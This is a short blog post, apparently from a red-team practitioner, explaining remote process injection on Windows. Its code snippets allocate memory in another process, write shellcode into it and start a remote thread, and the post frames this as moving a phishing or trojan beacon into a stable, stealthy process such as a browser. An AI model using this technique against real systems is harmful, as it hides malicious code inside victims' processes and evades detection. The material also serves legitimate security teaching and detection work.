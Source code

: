 ```yaml
---
title: Remote Process Injection
date: 2023-03-14 12:00:00 -500
categories: [blog]
tags: [code_execution]

---
```


# What is process injection and why do we need it?

Process injection is the act of creating a copy of your shellcode in the current process and copying it across to the memory space of a different process and remotely executing that code.

There are mulitiple ways of getting initial access during a Red Team campaign, but, through whichever means you get a successful beacon out to your control server, your first call home will be short lived most of the time. If you use phishing or a Trojan for instance, you would want to migrate your beacon code to a more stable long term process that will not die when the victim closes the application. Process injection can also be helpful if you are concerned about OPSEC. Migrating your code/beacon over to a web browser process will blend in much better than calc connecting out to the internet.  

# Implementing Process Injection

Process injection involves much of the same steps as we have already discussed in [this](https://coppertop-6.github.io/posts/Windows_Dropper/) post. We will make use of 3 Windows APIs that were designed for debugging processes, namely [VIrtualAllocEx](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocex), [WriteProcessMemory](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory) and [CreateRemoteThread](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createremotethread). You might recognise these APIs and that is because it is the same APIs we used during the dropper design phase, but only for use in remote processes.

We start off with assigning variables for our shellcode buffer and the remote thread we will execute that shellcode with. Using ```VIrtualAllocEx```, we can assign a buffer for our shellcode in a remote process and speicify the size of the buffer and what memory protections should be applied (RX).

```c#
LPVOID pRemoteCode = NULL;
HANDLE hThread = NULL;

pRemoteCode = VirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
```  

After the buffer has been assigned, we can use ```WriteProcessMemory``` to "copy" our shellcode from our current process to the remote process identified in the previous step.

```c#        
WriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
```

```c#
hThread = CreateRemoteThread(hProc, NULL, 0, pRemoteCode, NULL, 0, NULL);
if (hThread != NULL) {
    WaitForSingleObject(hThread, 500);
    CloseHandle(hThread);
    return 0;
    }
    return -1;
```
